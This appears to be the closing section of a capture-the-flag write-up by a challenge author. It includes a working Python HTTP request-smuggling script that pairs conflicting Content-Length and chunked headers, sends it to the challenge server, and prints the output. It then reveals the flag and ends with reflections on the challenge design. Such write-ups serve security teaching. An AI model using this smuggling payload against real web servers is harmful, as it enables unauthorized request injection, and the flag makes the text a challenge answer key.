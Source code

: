 
```python
import socket

# The proxy port is 4941

payload = b"""GET /game-state HTTP/1.1\r\nHost: sabacc.chals.f.cyberthon24.ctf.sg:4941\r\nContent-Length: 30\r\nConnection: keep-alive\r\nTransfer-Encoding:chunked\r\n\r\n0\r\n\r\nGET /hit HTTP/1.1\r\nX-Foo:"""

for i in range(30):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("sabacc.chals.f.cyberthon24.ctf.sg", 4941))
    sock.send(payload)

response = sock.recv(4096)
print(response.decode())
```


```
PS C:\Users\user\sol> python .\solution.py
HTTP/1.1 406 NOT ACCEPTABLE
Server: gunicorn/19.9.0
Date: Sat, 04 May 2024 12:06:26 GMT
Content-Type: application/json
Content-Length: 30

{"error":"Player ID not set"}
```


![Forced draw](/img/tgbs/forced.png)


And all we have to do now is reveal.


![Win](/img/tgbs/win.png)


```
Cyberthon{the_falcon_is_all_mine!}
```


## Thoughts

When I was given the theme for this year's Cyberthon (Star Wars), the idea to somehow incorporate request smuggling as a thematic connection to the smugglers and gunrunners of the SW universe came to me pretty quickly. The whole card game idea came from the lore, and I think I did a pretty good job on that part.


Halfway through making the challenge, I realised that the vulnerability worked against me, as teams could very easily sabotage others by smuggling their requests to the server as well. I had to come up with a solution for this, which was my standalone CTF challenge instancer you can find [here](https://github.com/Iscaraca/CTFInstancer).
